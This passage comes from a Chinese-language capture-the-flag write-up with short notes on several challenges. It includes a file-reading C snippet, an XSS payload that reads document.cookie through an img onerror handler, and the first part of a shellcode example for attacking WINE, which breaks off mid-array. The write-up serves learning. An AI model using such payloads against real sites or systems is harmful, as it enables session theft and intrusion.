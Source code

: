 ```c
    char *line = NULL;
    size_t len = 0;
    ssize_t read;

    fp = fopen("./data/static.out", "r");
    if (fp == NULL)
        exit(1);

    while ((read = getline(&line, &len, fp)) != -1)
    {
        if (len > 0)
            printf("%s\n", trimwhitespace(line));
    }

    fclose(fp);
    if (line)
        free(line);

    return 0;
}
```

### 动态数据

想到了在编译时带数据，但是真的没找到方法...

## 线路板

用 KiCad 的 Gerber 查看器打开，不过不知道为什么我没把 flag 点出来，导出到编辑器后能看到（

## Flag 自动机

虽然没做出来，但是我成功通过另一个程序发 Signal 点了那个按钮，然而（

## 微积分计算小练习

简单的 XSS 注入，不出网，随便试几下可以发现他返回的结果应该是获取指定 id 的元素内容，然后尝试读一下 cookie：

```html
100:<img src=x onerror="document.getElementById('greeting').innerText=document.cookie;">
```

## 杯窗鹅影

完全不会二进制，搜了一下找到了 [Attacking applications running under WINE](https://schlafwandler.github.io/posts/attacking-wine-part-i/)，给了一个执行 Linux Shellcode 的示例：

```c
#include <windows.h>
#include <stdio.h>

// i686-w64-mingw32-gcc -o exec_shellcode.exe exec_shellcode.c

unsigned char win32_messagebox[] = {
  0x55, 0x8b, 0xec, 0x83, 0xec, 0x74, 0x64, 0xa1, 0x30, 0x00, 0x00, 0x00,
  0x53, 0x8b, 0x40, 0x0c, 0xc7, 0x45, 0xc4, 0x2a, 0x2c, 0x00, 0x00, 0x8b,
  0x40, 0x0c, 0xc7, 0x45, 0xc8, 0x50, 0x2a, 0x00, 0x00, 0x8b, 0x00, 0xc7,
  0x45, 0xcc, 0xa4, 0xf1, 0x00, 0x00, 0x8b, 0x00, 0x8b, 0x48, 0x18, 0x8b,
  0x41, 0x3c, 0x8b, 0x44, 0x08, 0x78, 0x03, 0xc1, 0x8b, 0x58, 0x20, 0x8b,
  0x50, 0x18, 0x03, 0xd9, 0x89, 0x55, 0xfc, 0x85, 0xd2, 0x74, 0x5e, 0x8b,
  0x50, 0x1c, 0x56, 0x8b, 0x70, 0x24, 0x57, 0x89, 0x55, 0xf4, 0x03, 0xf1,
  0x0f, 0xb7, 0x06, 0x8b, 0x3b, 0x8d, 0x04, 0x82, 0x03, 0xf9, 0x8b, 0x04,
  0x08, 0x03, 0xc1, 0x8d, 0x5b, 0x04, 0x89, 0x45, 0xf8, 0x33, 0xd2, 0xeb,
  0x0d, 0x6b, 0xd2, 0x1f, 0x0f, 0xb6, 0xc0, 0x66, 0x33, 0xd0, 0x0f, 0xb7,
```